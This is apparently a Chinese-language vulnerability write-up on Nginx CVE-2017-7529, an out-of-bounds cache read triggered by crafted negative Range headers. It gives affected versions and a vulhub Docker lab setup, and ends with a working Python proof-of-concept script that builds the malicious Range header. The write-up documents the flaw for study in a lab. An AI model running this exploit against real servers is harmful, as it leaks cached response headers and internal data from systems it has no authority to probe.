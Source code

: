 ```yaml
---
title: Nginx越界读取缓存漏洞 CVE-2017-7529
---
```


# Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述
Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本
<a-checkbox checked>Nginx version 0.5.6 - 1.13.2</a-checkbox></br>

## 环境搭建
``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```
访问` http://xxx.xxx.xxx.xxx:8080` 正常即可

![image-20220307133726141](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307133726141.png)

## 漏洞复现

使用POC进行验证

```shell
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![318085cd-8491-4ca4-b19e-de8f66041c6b](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/318085cd-8491-4ca4-b19e-de8f66041c6b.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```

